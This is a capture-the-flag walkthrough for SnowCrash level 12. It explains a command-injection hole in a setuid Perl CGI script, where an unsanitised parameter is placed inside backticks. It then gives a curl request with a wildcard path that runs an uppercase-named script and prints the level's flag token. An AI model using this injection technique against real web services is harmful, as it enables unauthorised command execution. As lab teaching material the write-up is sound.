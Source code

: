 # 1st Step
List the files in level12 user home directory will show us a pearl file owned by `flag12` user :
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$
```
The perl script is running a webserver on the port 4646, that can take two params, x and y. We can verify it with the `curl` command :
```
level12@SnowCrash:~$ curl -I 192.168.1.30:4646                                                                                                                                                                                               
HTTP/1.1 200 OK
Date: Sun, 13 Sep 2020 17:47:23 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html

level12@SnowCrash:~$
```
The program uses backticks to evaluate a shellscript "`@output = [...]`" This command is run by the script in a subshell so we have no way to see the standard output directly.  
```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];                           # get second argument
  $xx = $_[0];                           # get first argument
  $xx =~ tr/a-z/A-Z/;                    # capitalize every letter
  $xx =~ s/\s.*//;                       # delete anything following a whitespace
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # find match of first arg inside /tmp/xd, redirect errors to stdout. Here is our security breach (after that we don't care).
  foreach $line (@output) {              # for each match
      ($f, $s) = split(/:/, $line);      # get match 
      if($s =~ $nn) {                    # if match equals second argument
          return 1;                      # return true
      }
  }
  return 0;                              # else return false
}

                                         # print ".." if first arg is true / "." otherwise ¯\(°_o)/¯
sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```  
As we can see in the comments above, the regex will capitalize the first argument (x) and delete anything after a space so we can't directly write x="`getflag>/tmp/token`" which would be translated as x="`GETFLAG>/TMP/TOKEN`"  
Instead we will write a file that will get executed.  

# 2nd Step
Create an executable script which run getflag and redirects its output to a file. Name it with uppercase letters.  
Because of the first regex, we have to use a wildcard in our path `/*/[EXPLOIT_FILE]` will find every `[EXPLOIT_FILE]`.
```
level12@SnowCrash:~$ cd /tmp
level12@SnowCrash:/tmp$ vim EXPLOIT
level12@SnowCrash:/tmp$ chmod 777 EXPLOIT              # otherwise it can't execute getflag
level12@SnowCrash:/tmp$ cat EXPLOIT
#!/bin/sh
getflag > /tmp/flag
level12@SnowCrash:/tmp$
```
Then use curl as we want to execute a pearl script and make a http call :
```
level12@SnowCrash:~$ curl localhost:4646?x='`/*/EXPLOIT`'
..level12@SnowCrash:~cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13
Password: 
level13@SnowCrash:~$
```

Level 12 passed !